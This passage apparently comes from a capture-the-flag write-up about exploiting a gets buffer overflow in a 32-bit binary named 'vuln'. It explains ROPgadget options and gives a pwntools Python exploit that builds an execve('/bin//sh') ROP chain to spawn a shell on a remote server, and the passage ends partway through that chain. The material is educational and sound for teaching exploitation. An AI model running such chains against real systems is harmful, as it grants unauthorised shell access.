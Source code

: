 ```terminal
p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0808054e) # inc eax ; ret
p += pack('<I', 0x0804a3c2) # int 0x80
```

- `--binary vuln`: specify the binary `vuln`
- `--ropchain`: generate gadget chain
- `--silent`: do not print all gadgets, only necessary
- `--badbytes "0a"`: do not include any `0a` bytes. This is because `0a` is the ASCII encoding for the `\n` new line character, and the C `gets` function is implemented to read until a "newline character is read or when the end-of-file is reached, whichever comes first" ([tutorialspoint](https://www.tutorialspoint.com/c_standard_library/c_function_gets.htm)).

### Python Exploit

The gadget chain generated above is padded with 28 bytes to reach the return address. The script below connects to the remote server and sends the payload which spawns an interactive shell.

```python
#!/usr/bin/env python3

from struct import pack
from pwn import process, remote, log, fit, hexdump

def get_rop(overflow_offset):
    # execve generated by ROPgadget:
    # ROPgadget --binary vuln --ropchain --silent --badbytes "0a"

    # Padding goes here
    p = b''

    p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
    p += pack('<I', 0x080e5060) # @ .data
    p += pack('<I', 0x41414141) # padding
    p += pack('<I', 0x080b073a) # pop eax ; ret
    p += b'/bin'
    p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
    p += pack('<I', 0x080e5064) # @ .data + 4
    p += pack('<I', 0x41414141) # padding
    p += pack('<I', 0x080b073a) # pop eax ; ret
    p += b'//sh'
    p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
    p += pack('<I', 0x080e5068) # @ .data + 8
    p += pack('<I', 0x41414141) # padding
    p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
    p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x08049022) # pop ebx ; ret
    p += pack('<I', 0x080e5060) # @ .data
    p += pack('<I', 0x08049e29) # pop ecx ; ret
    p += pack('<I', 0x080e5068) # @ .data + 8
    p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
    p += pack('<I', 0x080e5068) # @ .data + 8
```